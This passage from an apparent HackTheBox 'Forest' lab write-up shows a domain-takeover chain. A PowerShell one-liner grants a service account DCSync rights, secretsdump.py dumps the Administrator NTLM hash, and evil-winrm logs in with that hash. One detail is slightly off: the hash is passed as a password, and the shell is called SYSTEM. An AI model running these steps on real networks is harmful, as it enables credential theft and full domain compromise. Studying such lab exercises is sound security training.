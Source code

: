 If I run that on Forest, it returns without error:
```
*Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

I can also run secretsdump.py and get hashes:
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

```

Then we can use `evil-winrm` to shell as SYSTEM.
```
evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```
